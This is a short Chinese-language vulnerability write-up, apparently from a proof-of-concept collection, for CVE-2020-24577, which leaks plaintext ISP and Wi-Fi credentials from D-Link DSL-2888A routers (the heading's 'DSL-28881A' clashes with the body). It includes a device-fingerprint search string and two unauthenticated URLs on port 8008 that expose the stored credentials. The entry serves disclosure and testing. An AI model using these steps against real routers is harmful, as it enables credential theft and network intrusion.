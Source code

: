 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

登录页面输入任意密码建立连接



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/link-1-20220314114948366.png)



跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

```
http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/link-3.png)

